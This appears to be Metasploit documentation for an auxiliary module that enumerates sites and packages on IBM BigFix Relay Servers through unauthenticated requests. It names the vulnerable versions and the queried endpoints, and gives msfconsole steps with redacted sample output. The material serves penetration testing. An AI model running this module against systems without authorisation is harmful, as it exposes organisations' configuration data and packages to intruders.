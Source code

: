 ## Description

This module performs unauthenticated requests to retrieve masthead, sites, and packages information from IBM BigFix Relay Servers. If the **DOWNLOAD** option is set then the module will attempt to download the identified packages. This module has been tested against Relay Server 9.5.10.79.

## Vulnerable Application

BigFix Platform 9.2 - 9.2.16 and 9.5 - 9.5.11

## Options

**SHOW_MASTHEAD**

Default: true. Read Organization name from `/masthead/masthead.axfm`

**SHOW_PACKAGES**

Default true. Read Action values and packages names from `/cgi-bin/bfenterprise/BESMirrorRequest.exe`

**SHOW_SITES**

Default true. Read Site URLs from `/cgi-bin/bfenterprise/clientregister.exe?RequestType=FetchCommands`

**DOWNLOAD**

Default true. Attempt to download identified packages.

**ShowURL**

Default false. Show full URL for the packages instead of the filename.

## Verification Steps

1. `./msfconsole -q`
2. `use auxiliary/gather/ibm_bigfix_sites_packages_enum`
3. `set rhosts <rhost>`
4. `exploit`

## Scenarios

### Relay Version 9.5.10.79

```
msf > use auxiliary/gather/ibm_bigfix_sites_packages_enum
msf auxiliary(gather/ibm_bigfix_sites_packages_enum) > set rhosts <rhost>
rhosts => <rhost>
msf auxiliary(gather/ibm_bigfix_sites_packages_enum) > exploit
[*] Running module against [IP]

[+] [Organization]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/actionsite
[+] http://[hostname]:52311/cgi-bin/bfenterprise/PostResults.exe
<snip>
[*] Sites
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
<snip>
[*] Packages
[*] Action: [action number]
[+] File: [package name]
[*] Action: [action number]
[+] File: [package name]
<snip>
[*] Auxiliary module execution completed
msf auxiliary(gather/ibm_bigfix_sites_packages_enum) >
```
